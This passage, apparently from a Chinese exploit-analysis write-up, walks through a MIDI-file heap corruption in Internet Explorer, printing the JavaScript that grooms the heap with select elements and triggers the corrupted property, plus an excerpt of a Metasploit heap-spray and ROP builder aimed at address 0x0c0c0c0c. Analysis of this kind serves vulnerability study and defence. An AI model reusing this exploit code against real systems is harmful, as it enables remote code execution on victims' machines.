 上面为了达到某处内容值+1得到控制代码执行的目的使用的是：

创建select元素selob，设置64个属性，其中w1为string类型,其余为object类型，然后创建一个数组用来存放1000个selob元素，然后间隔释放1000个selob元素中的500个元素，然后由于ie解析mid文件，运行了winmmAlloc(0x400)，得到的分配地址位于某个释放的selob元素的位置，由于mid文件中某处已经构造好了音轨事件是"打开音符"，于是会使得某个selob元素的+19位置的值+1，于是该selob元素的第二个属性w1由string变成object，然后由下面的js来触发这个变成object的属性相应函数的执行，触发js如下：



```
function trigger()`{`
    var k=999
    while (k&gt;0)`{`
    if (typeof(clones[k].w1)=="string")`{`
    `}`else`{`
    clone[k].w1('come on!')
    `}`
    
    k=k-2
    `}`
    feng_shui()
    document.audio.Play()
    `}`
```

上面的js中的函数trigger由下面的js调用执行(执行trigger函数在ie解析mid文件之后[也即在上面的<br style="text-align: left">    document.audio.Play执行之后])：



```
&lt;/script&gt;
    &lt;script for=audio event=PlayStateChange(oldState,newState)&gt;
        if (oldState == 3 &amp;&amp; newState == 0) `{`
            trigger();
        `}`
    &lt;/script&gt;
```

在js构造的string变成object的属性时执行的函数的地址为0x0c0c0c0c是堆喷射的利用地址，对应msf中的构造堆喷射内存布局的代码如下：



```
def build_spray(my_target, leak=0)
  
      # Extract string based on target
      if my_target.name == 'IE 8 on Windows XP SP3'
        js_extract_str = "var block = shellcode.substring(2, (0x40000-0x21)/2);"
      else
        js_extract_str = "var block = shellcode.substring(0, (0x80000-6)/2);"
      end
  
      # Build shellcode based on Rop requirement
      code = ''
      if my_target['Rop'] and datastore['MSHTML'].to_s != ''
        print_status("Generating ROP using info-leak: 0x#`{`leak.to_s(16)`}`")
        code &lt;&lt; create_info_leak_rop(my_target, leak)
        code &lt;&lt; payload.encoded
      elsif my_target['Rop'] and datastore['MSHTML'].to_s == ''
        print_status("Generating ROP using msvcrt")
        code &lt;&lt; create_rop(my_target, payload.encoded)
      else
        code &lt;&lt; payload.encoded
      end
  
      shellcode = Rex::Text.to_unescape(code)
  
      # 1. Create  big block of nops
      # 2. Compose one block which is nops + shellcode
      # 3. Repeat the block
```